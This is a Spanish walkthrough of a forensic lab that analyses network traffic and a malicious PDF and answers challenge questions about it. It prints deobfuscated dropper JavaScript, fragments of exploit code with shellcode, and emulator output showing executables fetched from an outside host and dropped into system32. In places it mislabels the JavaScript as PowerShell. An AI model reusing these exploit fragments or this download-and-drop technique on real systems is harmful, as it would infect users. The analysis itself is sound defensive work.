



Para este laboratorio se nos proporciona unicamente un fichero .pcap, asi que podemos iniciar rápidamente nuestro análisis con zeek: 

```bash 
┌──(kali㉿kali)-[~/blue-labs/pdf/temp_extract_dir/Malicious-Portable]
└─$ docker run -v "$(pwd)":/mnt -it zeek/zeek sh
# bash
root@9296b55bec84:/# cd mnt/
root@9296b55bec84:/mnt# ls
lala.pcap
root@9296b55bec84:/mnt# zeek -r lala.pcap
root@9296b55bec84:/mnt# ls
conn.log  dns.log  files.log  http.log  lala.pcap  packet_filter.log
root@9296b55bec84:/mnt#
```

--------

<h3 style="color: #0d6efd;">Q1. How many URL path(s) are involved in this incident? </h3>

```bash 
root@37b18fdbc6f2:/mnt# zeek-cut uri < http.log
/forensic_challenge
/forensic_challenge/
/forensic_challenge/getpdf.php
/forensic_challenge/fcexploit.pdf
/favicon.ico
/forensic_challenge/the_real_malware.exe
/favicon.ico
```

Desde el punto de vista de los servidores web (especialmente Apache o Nginx), una URI con o sin la barra final (/) puede representar recursos diferentes:

- `example.com/forensic_challenge` → Puede tratarse de un archivo (ej. un script, recurso estático, etc.).
- `example.com/forensic_challenge/` → Se interpreta como un directorio (y se puede redirigir a index.html o similar).

```bash
root@37b18fdbc6f2:/mnt# zeek-cut uri < http.log | sort | uniq | wc -l
6
```
-------

<h3 style="color: #0d6efd;">Q2. What is the URL which contains the JS code? </h3>

Para esto seguimos el flujo http en wireshark en los paquetes que aparecen con el filtro `http.request.method == "GET"`

Podemos ver lo siguiente: 



Definitivamente parece código malicioso, vemos variables ofuscadas entre otras cosas. 

---

<h3 style="color: #0d6efd;">Q3. What is the URL hidden in the JS code? </h3>

Bien, esto podríamos resolverlo con pura lógica, pues ya hemos visto que tenemos código ofuscado, podríamos pensar que la siguiente dirección que se visita es la que nos piden y realmente es así, esto podríamos reforzarlo también viendo el campo de `Referer` en wireshar para la dirección `http://blog.honeynet.org.my/forensic_challenge/getpdf.php`. 

Pero como lo que nos piden es analizar el código, vamos a hacerlo. 

Primero, copiamos el javascript que observamos antes, le quitamos las etiquetas html, lo ponemos en una herramienta [deobfuscate javascript](https://deobfuscate.io/), copiamos el código y editamos las líneas que parezcan ser llamadas de ejecución para volverlo todo más seguro: 



Y cuando ejecutamos: 

```bash 
┌──(kali㉿kali)-[~/blue-labs/pdf]
└─$ node script.js
document.write('<iframe scrolling="no" width="1" height="1" border="0" frameborder="0" src="http://blog.honeynet.org.my/forensic_challenge/getpdf.php"></iframe>')
```

Confirmamos que efectivamente se visita la dirección de la que sospechamos. Ademas de mostrar un iframe con un alto y ancho de 1 pixel, para no ser visto por el usuario y permitir la descarga del malware sin ser detectados. 
Esto sugiere que la descarga de este fichero .php es un trigger para comenzar con la descarga del malware, que es un pdf, ya que todo este tráfico está en el mismo stream, el 0, que podemos ver en nuestro wireshark. 

-----

<h3 style="color: #0d6efd;">Q4. What is the MD5 hash of the PDF file contained in the packet? </h3>

Bien, para esto descargamos el contenido desde wireshark, ya sabemos `File > Export Objects > HTTP`, guardamos el `.pdf` y obtenemos el hash: 

```bash 
┌──(kali㉿kali)-[~/blue-labs/pdf]
└─$ md5sum fcexploit.pdf
659cf4c6baa87b082227540047538c2a  fcexploit.pdf
```

-----

<h3 style="color: #0d6efd;">Q5. How many object(s) are contained inside the PDF file? </h3>


Bien, lo primero que hacemos es un análisis rápido sobre el fichero: 

```bash 
┌──(kali㉿kali)-[~/blue-labs/pdf]
└─$ xxd fcexploit.pdf | head -n 5
00000000: 0925 5044 462d 312e 330a 25b0 95dd cc0a  .%PDF-1.3.%.....
00000010: 2525 2525 2525 2525 2525 2525 2525 2525  %%%%%%%%%%%%%%%%
00000020: 2525 2525 2525 2525 2525 2525 2525 2525  %%%%%%%%%%%%%%%%
00000030: 2525 2525 2525 2525 2525 2525 2525 2525  %%%%%%%%%%%%%%%%
00000040: 2525 2525 2525 2525 2525 2525 2525 2525  %%%%%%%%%%%%%%%%
```

Y ya vemos cosas raras, el archivo comienza con un byte 09, que no es parte del encabezado estándar y lo que parece ser relleno.

Así que aplicamos el siguiente comando para analizarlo: 

```bash 
┌──(kali㉿kali)-[~/blue-labs/pdf]
└─$ pdfid fcexploit.pdf
PDFiD 0.2.10 fcexploit.pdf
 PDF Header: %PDF-1.3
 obj                   19
 endobj                18
 stream                 5
 endstream              5
 xref                   1
 trailer                1
 startxref              1
 /Page                  2
 /Encrypt               0
 /ObjStm                0
 /JS                    1
 /JavaScript            1
 /AA                    0
 /OpenAction            1
 /AcroForm              1
 /JBIG2Decode           0
 /RichMedia             0
 /Launch                0
 /EmbeddedFile          1
 /XFA                   1
 /Colors > 2^24         0
```

**El Malware en PDF** casi siempre se oculta dentro de objetos. 

En el estándar PDF, **todo el contenido del documento está definido por objetos**. Estos objetos son estructuras de datos que pueden representar:

* Texto
* Imágenes
* JavaScript incrustado
* Formularios (como `/AcroForm`)
* Acciones automáticas (como `/OpenAction`)
* Y más...

### Sintaxis básica de un objeto

```pdf
1 0 obj
<< /Type /Catalog
   /Pages 2 0 R
>>
endobj
```

* `1 0 obj`: es el **número del objeto** y su **versión (generación)**. Aquí, el objeto 1 versión 0.
* `<< ... >>`: contiene un **diccionario de propiedades**.
* `endobj`: marca el fin del objeto.

### Vemos que el fichero tiene:
```
obj        19
endobj     18
```

Esto significa que hay **19 objetos** (aunque uno puede estar sin `endobj`, o mal formado).

Algunos tipos comunes y relevantes para análisis de malware en PDF:

| Tipo de Objeto        | Propósito / Riesgo                              |
| --------------------- | ----------------------------------------------- |
| `/JS` o `/JavaScript` | Código JavaScript embebido → muy peligroso      |
| `/OpenAction`         | Ejecuta automáticamente al abrir el PDF         |
| `/AcroForm`           | Formularios PDF → pueden invocar scripts        |
| `/EmbeddedFile`       | Archivos embebidos (puede incluir ejecutables)  |
| `/XFA`                | Formularios dinámicos XML → a veces explotables |
| `stream`              | Contenido binario o comprimido (imágenes, JS)   |

---

<h3 style="color: #0d6efd;">Q6. How many filtering schemes are used for the object streams? </h3>


Primero, hay que definir estos conceptos: 

A continuación se ofrece una explicación detallada y técnica de los conceptos de **“object streams”** y **“filtering schemes”** en el contexto de un archivo PDF, junto con la respuesta a cuántos esquemas de filtrado (filters) se están utilizando en los “object streams” del fichero que has analizado.

---

## 1. ¿Qué es un “object stream” en un PDF?

En la especificación PDF (ISO 32000-1 / ISO 32000-2), un **“object stream”** (flujo de objetos) es un objeto especial que agrupa múltiples objetos PDF (como diccionarios, cadenas de texto o incluso objetos binarios) dentro de un único flujo (stream). La idea detrás de los object streams es optimizar la compresión y reducir el tamaño global del PDF cuando contiene muchos objetos pequeños. A grandes rasgos:

1. **Estructura tradicional sin object streams**

   * Cada objeto se define por separado, con su encabezado numérico (`númeroObjeto generación obj`) y su terminador (`endobj`).
   * Ejemplo mínimo de dos objetos “separados”:

     ```
     1 0 obj
     << /Type /Example
        /Length 44
     >>
     stream
     Aquí va algo de contenido
     endstream
     endobj

     2 0 obj
     << /Type /Example2
        /Length 22
     >>
     stream
     Otro contenido
     endstream
     endobj
     ```
   * Cada uno ocupa su propia sección, con su propia lista de objetos y sus propios filtros de compresión (si los hay).

2. **Estructura con object streams**

   * Se agrupan varios objetos pequeños dentro de un único objeto “stream”. Internamente, ese flujo almacenará pares clave–valor que representan los objetos, y luego “descomprime” o “decodifica” todo de una sola vez para recuperar cada subobjeto.

   * Ejemplo muy simplificado (no realista, pero ilustrativo):

     ```
     10 0 obj
     << /Type /ObjStm
        /N 2               % Número de objetos dentro del stream
        /First 45          % Desplazamiento a donde comienzan los datos
        /Filter /FlateDecode
        /Length 58
     >>
     stream
     1 0 2 0   % “Índice” (ID de cada objeto y posición dentro del flujo)
     Aquí los bytes comprimidos con FlateDecode que contienen los objetos 1 0 obj y 2 0 obj
     endstream
     endobj
     ```

   * En este esquema, los objetos `1 0 obj` y `2 0 obj` ya **no aparecen como secciones independientes** en el PDF; en su lugar, están concatenados y comprimidos dentro del objeto `10 0 obj` (el object stream).

3. **Ventajas de los object streams**

   * **Compresión conjunta**: Cuando muchos objetos pequeños se agrupan, la compresión (ej., FlateDecode) suele ser más eficiente que si cada objeto se comprimiera por separado.
   * **Reducción de la sobrecarga del catálogo (xref)**: El índice de todas las ubicaciones físicas de los objetos se simplifica.
   * **Especialmente útil para PDF/A y PDF version 1.5 o superior**: A partir de PDF 1.5 se introdujo la capacidad de “object streams” y “cross-reference streams” para optimizar el tamaño y el rendimiento.

En tu análisis con **pdfid**, al ver que aparecen varias referencias a `/Filter [ ... ]`, lo más probable es que esos filtros se apliquen a flujos que contienen objetos (object streams) o flujos de contenido dentro del PDF. El hecho de que aparezca repetido indica que hay varios objetos (o flujos) en ese documento que utilizan el listado de filtros que vemos.

---

## 2. ¿Qué son los “filtering schemes” (esquemas de filtrado) en PDF?

Dentro de un PDF, un **“filter”** (filtro) es un mecanismo que **transforma** (codifica o decodifica) el contenido de un flujo (stream). Un flujo PDF se define habitualmente así:

```pdf
<númeroObjeto> <generación> obj
<<
   /Length <longitudDelStream>
   /Filter /NombreDelFiltro1
   % (opcionalmente se pueden encadenar varios filtros)
   /Filter [ /FiltroA /FiltroB /FiltroC ]
>>
stream
   <bytes de datos codificados/comprimidos>
endstream
endobj
```

Los **esquemas de filtrado** permiten, por ejemplo:

* Comprimir datos (FlateDecode, LZWDecode, RunLengthDecode).
* Codificar datos de texto para que queden en ASCII (ASCIIHexDecode, ASCII85Decode).
* Insertar datos JPEG o JBIG2 (DCTDecode, JBIG2Decode).
* Y otros formatos especiales.

### 2.1. Funcionamiento genérico de un filtro

1. **Cuando se genera el PDF**

   * El contenido original (texto, imágenes, flujos binarios) se “pasa” por uno o más filtros en orden.
   * Cada filtro transforma el contenido para reducir su tamaño o cambiar su formato.
   * El resultado codificado se guarda en el objeto como bytes “crípticos”.

2. **Cuando se abre/visualiza el PDF**

   * El Visor PDF (Acrobat Reader, Evince, etc.) lee el objeto.
   * Detecta la clave `/Filter` (o `/Filter […]`) y aplica la lógica inversa de cada filtro, en **orden inverso**, para recuperar el contenido original.
   * Finalmente, muestra (o ejecuta, en caso de JavaScript) el contenido.

### 2.2. Los filtros detectados en la salida

Ejecutamos:

```bash
pdf-parser fcexploit.pdf --search /Filter | grep Filter
```

Y obtenemos cuatro líneas iguales:

```
/Filter [ /FlateDecode /ASCII85Decode /LZWDecode /RunLengthDecode ]
```

Esto significa que **en cuatro objetos distintos** (probablemente en cuatro flujos independientes) se está utilizando el mismo arreglo de cuatro filtros, en el orden indicado. En concreto:

1. **/FlateDecode**

   * Algoritmo de compresión basado en deflate (similar a gzip/zlib).
   * Es uno de los filtros más comunes para comprimir texto, objetos y también streams de JavaScript embebido.

2. **/ASCII85Decode**

   * Codifica datos binarios a texto imprimible usando un esquema basado en grupos de 5 caracteres ASCII cada 4 bytes binarios.
   * Se usa sobre todo para convertir datos binarios en texto ASCII, evitando problemas en sistemas que no aceptan bytes no imprimibles.

3. **/LZWDecode**

   * Algoritmo de compresión LZW (Lempel – Ziv – Welch).
   * Más antiguo que Flate, pero en PDF se usa para comprimir flujos de imagen en algunos casos (aunque hoy en día está en desuso para ciertas versiones de PDF).

4. **/RunLengthDecode**

   * Compresión muy simple basada en repetir secuencias de bytes (ideal para datos que tienen “runs” largos de un mismo valor).
   * Con frecuencia se utiliza para comprimir pequeños datos o máscaras de imagen.

El hecho de verlos en un array `/Filter [ /FlateDecode /ASCII85Decode /LZWDecode /RunLengthDecode ]` implica que, **para cada uno de esos objetos**, el flujo de datos original fue sometido a **todos esos filtros**, en el orden que aparecen. Para decodificarlo, el visor PDF aplicará la lógica inversa en orden invertido: primero RunLengthDecode, luego LZWDecode, luego ASCII85Decode y, por último, FlateDecode.

En el contexto de la pregunta:

> **How many filtering schemes are used for the object streams?**
> Y tu salida fue:
>
> ```
> /Filter [ /FlateDecode /ASCII85Decode /LZWDecode /RunLengthDecode ]
> /Filter [ /FlateDecode /ASCII85Decode /LZWDecode /RunLengthDecode ]
> /Filter [ /FlateDecode /ASCII85Decode /LZWDecode /RunLengthDecode ]
> /Filter [ /FlateDecode /ASCII85Decode /LZWDecode /RunLengthDecode ]
> ```

Se observa que **se enumeran cuatro objetos (posibles object streams o flujos de contenido) y cada uno utiliza exactamente cuatro filtros**. Por consiguiente, la respuesta directa es:

* **Cuatro esquemas de filtrado**:

  1. FlateDecode
  2. ASCII85Decode
  3. LZWDecode
  4. RunLengthDecode

Es decir, el array `/Filter [ … ]` contiene cuatro entradas, y cada una de esas entradas corresponde a un tipo de filtro aplicado al flujo.

-------

<h3 style="color: #0d6efd;">Q7. What is the number of the 'object stream' that might contain malicious JS code? </h3>

Para esto, aplicamos el siguiente comando: 

```bash 
┌──(kali㉿kali)-[~/blue-labs/pdf]
└─$ pdf-parser fcexploit.pdf -f | less
```

El modificador -f (o --full) le indica a pdf-parser.py que muestre la estructura completa de cada objeto, incluyendo diccionarios, referencias y la presencia de “streams”.

Y de la salido, la parte que nos interesa es la siguiente: 

```plaintext
obj 4 0
 Type: /Action
 Referencing: 5 0 R

  <<
    /Type /Action
    /S /JavaScript
    /JS 5 0 R
  >>

 [(1, ' '), (2, '<<'), (1, ' '), (2, '/Type'), (1, ' '), (2, '/Action'), (1, ' '), (2, '/S'), (1, ' '), (2, '/JavaScript'), (1, ' '), (2, '/JS'), (1, ' '), (3, '5'), (1, ' '), (3, '0'), (1, ' '), (3, 'R'), (1, ' '), (2, '>>'), (1, ' ')]

obj 5 0
 Type:
 Referencing:
 Contains stream

  <<
    /Length 395
    /Filter [ /FlateDecode /ASCII85Decode /LZWDecode /RunLengthDecode ]
  >>

 'ASCII85Decode decompress failed'
```

1. **Objeto 4 (`4 0 obj`)**:

   * Es de tipo `/Action`.
   * Tiene `/S /JavaScript`, lo que indica que esta acción ejecuta JavaScript.
   * Apunta con `/JS 5 0 R` al **objeto 5**, que es donde reside el flujo (stream) con el código real.

2. **Objeto 5 (`5 0 obj`)**:

   * Es el “object stream” que **contiene el JavaScript malicioso**.
   * Tiene una propiedad `/Filter [ /FlateDecode /ASCII85Decode /LZWDecode /RunLengthDecode ]`, es decir, cuatro filtros encadenados que comprimen y codifican los datos.
   * La herramienta `pdf-parser` mostró un error de decodificación parcial porque no aplicó en secuencia todos esos filtros; para extraer el código hay que deshacer la lista completa de filtros en orden inverso.

> **El objeto número 5** (es decir, `5 0 obj`) es el flujo que almacena el JavaScript malicioso.

-----

<h3 style="color: #0d6efd;">Q8. Analyzing the PDF file. What 'object-streams' contain the JS code responsible for executing the shellcodes? The JS code is divided into two streams. Format: two numbers separated with ','. Put the numbers in ascending order </h3>

Para esto volcamos los objetos que contienen filtros, que en este contexto podríamos sospechar que son maliciosos. Usamos python2 ya que python3 falla al descomprimir ASCII85. 

```bash 
python2 /usr/local/bin/pdf-parser.py --raw -o 7 -f fcexploit.pdf -d obj7
python2 /usr/local/bin/pdf-parser.py --raw -o 9 -f fcexploit.pdf -d obj9
python2 /usr/local/bin/pdf-parser.py --raw -o 10 -f fcexploit.pdf -d obj10
```

El objeto 7 parece ser una cadena larga de hexadecimal, el 9 es una cadena larga de "X_17844743X", y el 10 una cadena con este formato "U_155bf62c9a"

Ahora fíjemonos en el 5 que sabemos que contiene el código Javascript: `python2 /usr/local/bin/pdf-parser.py --raw -o 5 -f fcexploit.pdf -d obj5`

El contenido del `obj5` lo pasamos por cyberchef con la fórmula "Javascript Beauty" y tenemos lo siguiente: 

```javascript
var SSS = null;
var SS = 'ev';
var $S = '';
$5 = 'in';
app.doc.syncAnnotScan();
S$ = 'ti';
if (app.plugIns.length != 0) {
	var $$ = 0;
	S$ += 'tl';
	$5 += 'fo';
	____SSS = app.doc.getAnnots({ nPage: 0 });
	S$ += 'e';
	$S = this.info.title;
}
var S5 = '';
if (app.plugIns.length > 3) {
	SS += 'a';
	var arr = $S.split(/U_155bf62c9aU_7917ab39/);
	for (var $ = 1; $ < arr.length; $++) {
		S5 += String.fromCharCode('0x' + arr[$]);
	}
	SS += 'l';
}
if (app.plugIns.length >= 2) {
	app[SS](S5);
}
```

La variable `SSS` hace referencia a un "page", un objeto /Page representa una página del documento.
Y el objeto 3 es un objeto del tipo "page" y hace referencia a 3 objetos: 
```bash 
obj 3 0
 Type: /Page
 Referencing: 6 0 R, 8 0 R, 2 0 R

  <<
    /Type /Page
    /MediaBox [ 0 0 612 792 ]
    /Annots [ 6 0 R 8 0 R ]
    /Parent 2 0 R
  >>
```

Los objetos 6 y 8 son del tipo /Annot: 

```
obj 6 0
 Type: /Annot
 Referencing: 7 0 R

  <<
    /Type /Annot
    /Subtype /Text
    /Name /Comment
    /Rect [ 200 250 300 320 ]
    /Subj 7 0 R
  >>

---------

obj 8 0
 Type: /Annot
 Referencing: 9 0 R

  <<
    /Type /Annot
    /Subtype /Text
    /Name /Comment
    /Rect [100 180 300 210 ]
    /Subj 9 0 R
  >>
```

Y hacen referencia a nuestros objetos 7 y 9, que ya extrajimos su contenido.  

En la segunda parte de código del obj 5 vemos que la variable `arr` divide la cadena usando el mismo formato que vimos en el objeto 10, así que hacemos lo mismo y notamos que es un código javascript:

```bash 
┌──(kali㉿kali)-[~/blue-labs/pdf]
└─$ sed 's/U_155bf62c9aU_7917ab39//g' obj10 | xxd -r -p > obj10.out

┌──(kali㉿kali)-[~/blue-labs/pdf]
└─$ cat obj10.out
____SS=1;____$5=____SSS[____SS].subject;____$S=0;____$=____$5.replace(/X_17844743X_170987743/g,"%");____S5=____SSS[____$S].subject;____$+=____S5.replace(/89af50d/g,"%");____$=____$.replace(/\n/,"");____$=____$.replace(/\r/,"");____S$=unescape(____$);app.eval(____S$);
```

Los replace tienen el mismo formato que los obj9 y obj7, así que hacemos lo mismo: 

```bash
┌──(kali㉿kali)-[~/blue-labs/pdf]
└─$ sed  's/X_17844743X_170987743/%/g' obj9 | xxd -r -p > obj9.out

┌──(kali㉿kali)-[~/blue-labs/pdf]
└─$ sed 's/89af50d/%/g' obj7 | xxd -r -p > obj7.out
```

El resultado parece ser un script en powershell, aqui un fragmento del obj7: 
```powershell
┌──(kali㉿kali)-[~/blue-labs/pdf]
└─$ cat obj7.out
8888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888;
        this.bC = 3699;
        util.printf("%45000f", num);
}
var eQ = "";

function gX() {
        var basicZ = '';
                // notepad.exe payload
        var shellcode = unescape("%uc931%u64b1%ub6bf%u558b%ud976%ud9cd
```

Así que podemos concluir que los objetos 7 y 9 son los que contienen el script, escrito en powershell. 

------

<h3 style="color: #0d6efd;">Q9. The JS code responsible for executing the exploit contains shellcodes that drop malicious executable files. What is the full path of malicious executable files after being dropped by the malware on the victim machine? </h3>

Para esto se junta el contenido de los dos fragmentos del malware que tenemos. 

```bash 
┌──(venv)─(kali㉿kali)-[~/blue-labs/pdf]
└─$ cat cat obj7.out obj9.out > fullobj.out
```

Y usamos el siguiente [script](https://raw.githubusercontent.com/forensicskween/CyberDefenders/refs/heads/main/GetPDF/ShellCodeExtract.py) propiedad de forensicskween para extraer, decodificar, emular y analizar el script en powershell. 

Utiliza pylibemu, una biblioteca de emulación de shellcode, para:
- Preparar un entorno de emulación con 2 KB de memoria.
- Ejecutar el shellcode hasta un máximo de 10 millones de instrucciones.
- Obtener una traza de lo que hace el shellcode (emu_profile_output).

Para esto tenemos que instalarlo en un entorno virtual: 

```bash 
git clone https://github.com/buffer/libemu.git
cd libemu
autoreconf -i
./configure
make
sudo make install
sudo ldconfig

# para confirmar la instalación: 
ldconfig -p | grep libemu
```


Ejecutamos y vemos lo siguiente: 

```bash 
┌──(venv)─(kali㉿kali)-[~/blue-labs/pdf/analisis]
└─$ python3 ShellCodeExtract.py -f fullobj.out
[2025-06-01 01:11:11] Downloading http://blog.honeynet.org.my/forensic_challenge/3malware.exe (c:\WINDOWS\system32\a.exe)
[2025-06-01 01:11:12] Error while downloading from b'http://blog.honeynet.org.my/forensic_challenge/3malware.exe'
[2025-06-01 01:11:12] Downloading http://blog.honeynet.org.my/forensic_challenge/malware.4.exe (c:\WINDOWS\system32\a.exe)
[2025-06-01 01:11:13] Error while downloading from b'http://blog.honeynet.org.my/forensic_challenge/malware.4.exe'
[2025-06-01 01:11:13] Downloading http://blog.honeynet.org.my/forensic_challenge/malware1.exe (c:\WINDOWS\system32\a.exe)
[2025-06-01 01:11:13] Error while downloading from b'http://blog.honeynet.org.my/forensic_challenge/malware1.exe'
[2025-06-01 01:11:13] Downloading http://blog.honeynet.org.my/forensic_challenge/malware_2.exe (c:\WINDOWS\system32\a.exe)
[2025-06-01 01:11:14] Error while downloading from b'http://blog.honeynet.org.my/forensic_challenge/malware_2.exe'
```

Es clara la ruta de instalación: c:\WINDOWS\system32\a.exe

------

<h3 style="color: #0d6efd;">Q10. The PDF file contains another exploit related to CVE-2010-0188. What is the URL of the malicious executable that the shellcode associated with this exploit drop? </h3>

Esto podemos verlo en el `.pcap`, vemos que se descarga otro fichero: 



-----

<h3 style="color: #0d6efd;">Q11. How many CVEs are included in the PDF file? </h3>

Para esto nos fijamos en las distintas funciones que emplea el script que obtuvimos, podemos googlearlas y encontrar CVE's relacionados con las siguiente funciones: 

- util.printf() 
- collab.collectEmailInfo() 
- getIcon() 
- media.newPlayer()
- util.printd() 
